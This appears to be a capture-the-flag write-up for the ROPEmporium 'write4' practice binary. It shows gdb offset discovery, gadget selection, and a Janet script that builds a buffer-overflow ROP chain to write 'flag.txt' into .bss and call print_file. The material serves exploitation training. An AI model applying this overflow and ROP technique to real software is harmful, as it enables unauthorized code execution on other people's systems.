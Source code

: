 # write4 (ROPEmporium Challenge 4)

## Locate ret address position on stack

```
gdb ./write4
pattern create 200 pattern.txt
r < pattern.txt
# segfault occurs here
x/2wx $rsp
# 0x41304141
pattern offset 0x41304141
# ... found at offset: 40
```

## Analysis & Making a Plan

```sh
checksec --file=write4
checksec --file=libwrite4.so

rabin2 -z write4
readelf -a write4

objdump -d write4
objdump -d libwrite4.so
```

- main calls pwnme@plt
- buffer overflow, jump to gadget:
  ```
  400690:	41 5e                	pop    %r14
  400692:	41 5f                	pop    %r15
  400694:	c3                   	ret
  ```
- jump to gadget:
  ```
  400628:	4d 89 3e             	mov    %r15,(%r14)
  40062b:	c3                   	ret
  ```
- so r15 must contain the string "flag.txt" (8 bytes, just enough for us)
- r14 must contain an address that we can write to
- print_file@plt receives first argument (string) in rdi -> must contain address of "flag.txt"
  ```
  400693                 5f  pop rdi
  400694                 c3  ret
  ```
- finally, jump to print_file@plt

## Writeable?

```sh
readelf -a write4

# [23] .data             PROGBITS         0000000000601028  00001028
#      0000000000000010  0000000000000000  WA       0     0     8
# [24] .bss              NOBITS           0000000000601038  00001038
#      0000000000000008  0000000000000000  WA       0     0     1
```

`.bss` is a section for uninitialized data.
We can write our "flag.txt" string here `0x0000000000601038`.

## Exploit Script

```janet
#!/usr/bin/env janet
(use sh)
# (print `\x` (string/join (reverse (partition 2 "0000000000601038")) `\x`))
# \x38\x10\x60\x00\x00\x00\x00\x00

# (print `\x` (string/join (map (partial string/format "%x") (string/bytes "flag.txt")) `\x`))
# \x66\x6c\x61\x67\x2e\x74\x78\x74

(def input (string/join [(string/repeat 'A 40)
                         "\x90\x06\x40\x00\x00\x00\x00\x00" # pop %r14; pop %r15; ret gadget
                         "\x38\x10\x60\x00\x00\x00\x00\x00" # r14: address to store string into
                         "\x66\x6c\x61\x67\x2e\x74\x78\x74" # r15: "flag.txt"
                         "\x28\x06\x40\x00\x00\x00\x00\x00" # mov %r15,(%r14)
                         "\x93\x06\x40\x00\x00\x00\x00\x00" # pop %rdi; ret gadget
                         "\x38\x10\x60\x00\x00\x00\x00\x00" # rdi: address of string
                         "\x10\x05\x40\x00\x00\x00\x00\x00" # print_file@plt
                         ""]))
(spit "payload.txt" input)
($ ./write4 < ,input)
```
